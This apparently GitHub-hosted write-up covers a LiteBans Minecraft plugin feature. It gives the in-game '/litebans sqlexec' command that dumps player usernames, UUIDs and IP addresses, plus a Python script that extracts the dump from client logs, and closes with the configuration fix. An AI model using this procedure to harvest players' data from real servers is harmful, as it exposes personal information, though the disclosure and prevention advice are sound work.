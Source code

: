 # LiteBans Plugin User Database Dump Exploit

### Overview
LiteBans is a popular and paid banning plugin for server moderators and administrators.

MySQL is one of the most used database management systems, used to store data in tables. MySQL supports SQL queries, which are commands or statements that access or modify data in a database.

Examples of SQL queries:
- `SELECT * FROM my_table;` returns everything that is stored in the table my_table.
- `SELECT email, password FROM my_table;` returns emails and passwords that is stored in the table my_table.

### Analysis
When installing LiteBans on your server, the plugin creates a local MySQL server for storing player data and punishments.

A feature in the plugin makes you able to execute SQL queries through an ingame command. You can exploit this feature, to dump the server's player data database. Of course, this command requires administrator permissions to use.

The plugin creates seven tables in the database:
- litebans_bans
- litebans_history
- litebans_kicks
- litebans_mutes
- litebans_servers
- litebans_sync
- litebans_warnings

The table `litebans_history` contains all player data (last seen date, username, UUID and IP-address), which is the table you want to dump.

### Exploitation
Simply execute the command `/litebans sqlexec SELECT * FROM litebans_history;`. The command will execute the SQL query and take everything that is stored in the SQL table `litebans_history` and display it in the ingame chat.

To get the database content, go to the latest client log file located at `%appdata%\.minecraft\logs\latest.log` and copy the dumped database table from start to bottom.

You can use this simple Python tool to format the database:
```python
def main():
    lines = [x.strip() for x in open(input("Database path > "), encoding="utf-8", errors="ignore").readlines() if x.strip()]
    with open("out.txt", "w") as file:
        for line in lines:
            file.write(line.split("[CHAT] ")[1] + "\n")

if __name__ == "__main__":
    main()
```

### Prevention
In the update LiteBans 2.3.10 - 2.3.15, a security patch was added. The configuration `security.sqlexec` was now set to true by default, which means only the console can use the sqlexec feature.

To prevent your server from getting its database dumped, set the security feature `security.sqlexec` to true in the configuration file of LiteBans located at `./plugins/LiteBans/config.yml`.

This configuration change will block players from using the command `/litebans sqlexec`.

```yaml
security:
  # If enabled, only the console can see IP addresses in /dupeip output.
  # This does not prevent players from using /dupeip. It only prevents them from seeing IP addresses.
  dupeip: true
  # If enabled, only the console can use /iphistory.
  iphistory: true
  # If enabled, only the console can use "/litebans sqlexec".
  sqlexec: true
```